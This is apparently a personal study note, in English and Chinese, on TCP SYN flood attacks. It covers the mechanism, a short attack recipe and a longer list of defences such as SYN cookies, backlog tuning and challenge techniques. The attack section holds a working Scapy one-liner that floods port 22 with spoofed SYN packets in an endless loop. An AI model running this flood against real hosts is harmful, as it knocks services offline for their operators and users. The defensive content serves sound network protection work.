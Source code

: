 # SYN Flood Attack
A SYN flood attack is a form of denial-of-service attack in which an attacker rapidly initiates a connection to a server without finalizing the connection. 

The malicious client can either simply not send the expected `ACK`, or by spoofing the source IP address in the `SYN`, cause the server to send the `SYN-ACK` to a falsified IP address – which will not send an `ACK` because it "knows" that it never sent a `SYN`.[^wiki]

## Attack
1. Nmap 扫描可连接端口
2. `echo 0 > /proc/sys/net/ipv4/tcp_syncookies`
3. Scapy
   ```python
   send(IP(src=RandIP(), dst='10.0.0.8') / TCP(sport=RandShort(), dport=22, flags='S'), loop=1)
   ```

[ACK-PSH-RST-SYN Flood | Knowledge Base | MazeBolt](https://kb.mazebolt.com/knowledgebase/ack-psh-rst-syn-flood/)

## Defenses
 [^linoxide]
- Filtering

- Increasing backlog
  ```sh
  cat /proc/sys/net/ipv4/tcp_max_syn_backlog
  ```
  [linux - What is the difference between tcp\_max\_syn\_backlog and somaxconn? - Stack Overflow](https://stackoverflow.com/questions/62641621/what-is-the-difference-between-tcp-max-syn-backlog-and-somaxconn)

- Reducing SYN-RECEIVED timer
  ```sh
  cat /proc/sys/net/ipv4/tcp_synack_retries
  ```

- Recycling the oldest [half-open TCP](https://en.wikipedia.org/wiki/TCP_half-open "TCP half-open")

- SYN cache

- [SYN cookies](https://en.wikipedia.org/wiki/SYN_cookies)
  
  Instead of storing additional connections, a SYN queue entry is encoded into the **sequence number** sent in the `SYN-ACK` response. If the server then receives a subsequent `ACK` response from the client with the incremented sequence number, the server is able to reconstruct the SYN queue entry and proceed as usual with the connection.

  SYN cookies are now deployed in most major operating systems.
  
  ```sh
  cat /proc/sys/net/ipv4/tcp_syncookies
  ```

- Timestamping

  [network programming - What benefit is conferred by TCP timestamp? - Stack Overflow](https://stackoverflow.com/questions/7880383/what-benefit-is-conferred-by-tcp-timestamp)

  [Linux服务器收到SYN请求包没有回应ACK导致客户端无法建立TCP连接\_syn包不响应-CSDN博客](https://blog.csdn.net/zhaojie0708/article/details/90272978)

- Hybrid approaches

- Firewalls and proxies

- 耗时型

  会增大通讯耗时，一般只会在 SYN 频率超过阈值时启用。

  - 首包丢弃，检测是否重传 SYN
  - Error-seq: 伪造错误 SYN ACK，检测客户端是否 RST
  - Right-seq: 伪造 SYN ACK，检测服务端 RST 后客户端是否重连
    - 依赖客户端重试行为，破坏了 TCP 的可靠性
    - 云彩网络: 需要重连两次
  - 连接丢弃，检测客户端是否换端口重连

  [什么是SYN Flood？如何防御SYN Flood？ - 华为](https://info.support.huawei.com/info-finder/encyclopedia/zh/SYN+Flood.html)

- Rate limiting
  - SYN ratio: $SYN/(SYN+ACK)$
  - ACK ratio: $ACK/n$

[云彩网络](https://www.7yc.com/):
- 检测为攻击时会返回伪造的 SYN ACK，而不是忽略或 RST
- 当客户端发送 SYN ECN CWR 时，伪造的 SYN ACK 会包含 ECN CWR，而真实的 Windows SYN ACK 只会包含 ECN

  伪造的 SYN ACK window 为 8760，而真实的为 65535
- 伪造的 SYN ACK 不含 options，而真实的 Options: (12 bytes), Maximum segment size, No-Operation (NOP), Window scale, No-Operation (NOP), No-Operation (NOP), SACK permitted
- 伪造的 SYN ACK Conversation completeness 为 47，而真实的为 31

[网络层(TCP/UDP)攻击与防御原理 | 曹世宏的博客](https://cshihong.github.io/2019/05/14/%E7%BD%91%E7%BB%9C%E5%B1%82-TCP-UDP-%E6%94%BB%E5%87%BB%E4%B8%8E%E9%98%B2%E5%BE%A1%E5%8E%9F%E7%90%86/)

[深入浅出DDoS攻击防御 - 知乎](https://www.zhihu.com/column/p/27128481)

[Windows 10 drops incoming TCP SYN packet for no reason - Microsoft Community](https://answers.microsoft.com/en-us/windows/forum/all/windows-10-drops-incoming-tcp-syn-packet-for-no/2245ca28-b82f-415a-8d4f-56afbf38b1a5?page=1)

## Reflection attack
[DRDoS预警：TCP反射的深度分析 - 百度安全社区](https://anquan.baidu.com/article/1360)

[基于中间盒的TCP反射放大攻击研究与实践分析 -- 绿盟科技技术博客](https://blog.nsfocus.net/tcp-use/)


[^wiki]: [SYN flood - Wikipedia](https://en.wikipedia.org/wiki/SYN_flood)
[^linoxide]: [What is SYN Flood Attack? Detection & Prevention in Linux](https://linoxide.com/snapshot-syn-flood-attack/)